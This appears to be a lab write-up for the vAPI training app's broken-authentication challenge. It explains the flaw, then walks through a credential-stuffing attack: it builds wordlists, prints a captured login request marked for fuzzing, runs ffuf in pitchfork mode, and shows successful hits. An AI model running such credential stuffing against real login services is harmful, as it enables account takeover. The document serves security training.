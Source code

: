 ### API 2. BROKEN USER AUTHENTICATION
Broken authentication vulnerabilites are related to applications that fail to implement protection mechanisms against authentication attacks. Examples of vulnerable applications are those that allow credential stuffing or brute force attack on the same user account, those that fail to implement protection mechanisms suchs as captcha/account lockout, those that allow weak passwords, those that send authentication tokens and clear passwords in the URL or those that does not validate the authenticity of tokens and accepts unsigned/weakly signed JWT tokens ("alg":"none").<br>
<br>
According to documentation, there is some useful information in the `vapi/Resources` directory. In fact, in the location `/vapi/Resources/API2_CredentialStuffing` there is a list of possible credential pairs username/password. We can create two separate wordlists of users and passwords from it.
```markdown
> cat API2_CredentialStuffing | cut -d',' -f 1 > usernames
> cat API2_CredentialStuffing | cut -d',' -f 2 > passwords
```
In order to launch a credential stuffing attack, we could use Burpsuite's intruder or `ffuf` (normally faster). To launch an attack with `ffuf`, first we capture a POST request to endpoint `/vapi/api2/user/login` and modify it adding a random credential of the list, we send it and let it fail (it returns 401 unauthorized login unsuccessful).
\
\
![Untitled4](https://github.com/g1vi/AllTheWriteUps/assets/120142960/e7902e6d-f7d5-4934-95ac-f131852c7b55)
\
\
Right-click on the request and save to file `request.txt`, then modify it with a text editor to mark the fields to be fuzzed `FUZZEMAIL` and `FUZZPASSWORD`
```markdown
POST /vapi/api2/user/login HTTP/1.1
Host: 10.1.1.11:8008
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; XSRF-TOKEN=eyJpdiI6IlV0MjdTRjVYbW5YMFFOb2RSWStralE9PSIsInZhbHVlIjoiaVkrY1pjOE9VdDlTUjB4cTVWdnBzTG54dTQ4d1VXYUVUdEF3ZXc3cEpXeU9obVVrTENDVWJ6M0dsMmYwYXlhNHF5RExLTnpJbTN0OTNiWWNYT1ZVNWZVbUovUlVKRkJ6YzF2KytLNDFTKzY5MXBYU2Q4WGFKSnUxOEV3T0FoeXgiLCJtYWMiOiJjYjc1ZWM5NDUyNWU3ODI1MWM1ZWYyYzczOGYwZjM1NDBmZmZiNGQ0N2I1NjhmODNjYWM3ZDk3YmFiMGU1MDc4IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkVENXYvMVFpZUlKUjJNdFZITnZYcmc9PSIsInZhbHVlIjoiTzBxdGJJTTVkaUJveGFaV1BSb05aSjYxZi9HVzMzcVBzTE1qczFzbHpxZ1pQNzBQMnV6akxhR1BxYURuZytWSVJ5ZnJxUktZWkdOUDMwajZLNlBxNkxsa3VFaW5TcjBJVSszMmxXbytQZWNSdyttc0JTYVgza1lGQzlxZG5PZmEiLCJtYWMiOiIwOTM0NjBlMmJiYmY2MWMxODhhYTY1YjEwYTk3ZjIxYzU4ZjY0YzcxN2NmMmM0YzYwZTc1OGRjZTgzNTIzNDEyIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1
Content-Length: 54
Content-Type: application/json;charset=UTF-8

{"email":"FUZZEMAIL",
	"password":"FUZZPASSWORD"
}
```
Now launch a pitchfork attack (credential stuffing) with `ffuf`. It combines first username with first password of each wordlist, second username with second password, third with third, and so on. 
```markdown
> ffuf -c -request request.txt -request-proto http -t 100 -fc 401 -w ./usernames:FUZZEMAIL -w ./passwords:FUZZPASSWORD -mode pitchfork
```
The attack reports 3 successful credentials (code: 200).
```markdown
[Status: 200, Size: 89, Words: 1, Lines: 1, Duration: 8528ms]
    * FUZZEMAIL: savanna48@ortiz.com
    * FUZZPASSWORD: zTyBwV/9

[Status: 200, Size: 89, Words: 1, Lines: 1, Duration: 8336ms]
    * FUZZEMAIL: hauck.aletha@yahoo.com
```